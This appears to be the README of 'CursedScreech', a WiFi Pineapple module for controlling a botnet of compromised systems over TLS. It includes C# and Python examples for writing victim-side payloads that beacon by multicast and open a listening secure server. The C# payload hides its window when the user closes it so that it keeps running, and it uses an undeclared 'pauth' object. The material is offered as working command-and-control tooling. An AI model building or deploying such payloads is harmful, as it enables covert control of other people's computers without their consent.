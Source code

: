# CursedScreech

A mass communicator module for the WiFi Pineapple that utilizes TLS to control a botnet of compromised systems.  Included is a C# API and Python API (with documentation) to write payloads that can communicate with CursedScreech and PortalAuth.


# APIs
I recommend using C# over Python to build your payload.  Both APIs are really simple to use but using C# will allow you to create a self-contained executable along with required keys/certificates.  Writing your payload in Python will require you to freeze your code and it can be difficult, if not impossible, to include all required files in a single executable.  If you can't make a single executable you will have to find a way to move the whole dist directory to the target machine.

### C# API Example
```
using System;
using System.Drawing;
using System.Windows.Forms;
using CursedScreech;

namespace Payload
{
    public partial class Form1 : Form {

        public Form1() {
            InitializeComponent();

            CursedScreech.CursedScreech cs = new CursedScreech.CursedScreech();
            cs.startMulticaster("231.253.78.29", 19578);
            cs.setRemoteCertificateSerial("EF-BE-AD-DE");
            cs.setRemoteCertificateHash("1234567890ABCDEF");
            cs.startSecureServerThread("Payload.Payload.pfx", "#$My$ecuR3P4ssw*rd&");

        }
        private void Form1_FormClosing(object sender, FormClosingEventArgs e) {
            e.Cancel = true;
            this.Hide();
        }
        private void accessKeyButton_Click(object sender, EventArgs e) {
			
			// Request an access key from the Pineapple
            string key = pauth.getAccessKey();

            // Check if a key was returned
            string msg;
            if (key.Length > 0) {
                msg = "Your access key is unique to you so DO NOT give it away!\n\nAccess Key: " + key;
            }
            else {
                msg = "Failed to retrieve an access key from the server.  Please try again later.";
            }

            // Display message to the user
            MessageBox.Show(msg);
		}
    }
}

```


### Python API Example
```
from CursedScreech import CursedScreech

cs = CursedScreech("Network Client")
cs.startMulticaster("231.253.78.29", 19578)
cs.setRemoteCertificateSerial("ABCDEF1234567890")
cs.startSecureServerThread("payload.pem", "payload.cer", "cursedscreech.cer")
```
